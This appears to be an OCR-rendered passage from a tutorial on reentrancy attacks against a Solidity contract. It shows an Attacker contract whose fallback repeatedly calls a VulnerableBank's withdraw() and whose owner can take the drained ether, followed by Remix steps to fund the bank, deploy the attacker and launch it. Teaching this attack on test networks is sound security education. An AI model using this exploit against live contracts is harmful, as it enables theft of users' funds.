 ```solidity

    fallback() external payable {
        if (address(bank).balance >= 1 ether && attackCount < 5) {
            attackCount++;
            bank.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 ETH");
        bank.deposit{value: 1 ether}();  // Step 1: deposit
        bank.withdraw();                // Step 2: start reentrant attack
    }

    function withdrawFunds() public {
        require(msg.sender == owner, "Not owner");
        payable(owner).transfer(address(this).balance);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }

    receive() external payable {}
}
```

---

### 🧪 Step 4: Setup and Run the Test

#### A. Fund the bank

Before launching the attack, you need to **fund the bank** contract with some Ether so the attack has something to drain.

1. In Remix:
   - Choose the **VulnerableBank contract**
   - Use the **`deposit()`** function
   - In the value field (top-left corner), enter something like `5 ether`
   - Click `deposit()`

Repeat this using **other test accounts** to simulate multiple users funding the bank.

#### B. Deploy Attacker

- Paste the VulnerableBank’s address into the Attacker contract constructor
- Deploy the Attacker contract

#### C. Launch the Attack

1. Change the selected account in Remix to the **Attacker’s owner account**
2. Enter `1 ether` in the value box
3. Call `attack()` on the Attacker contract
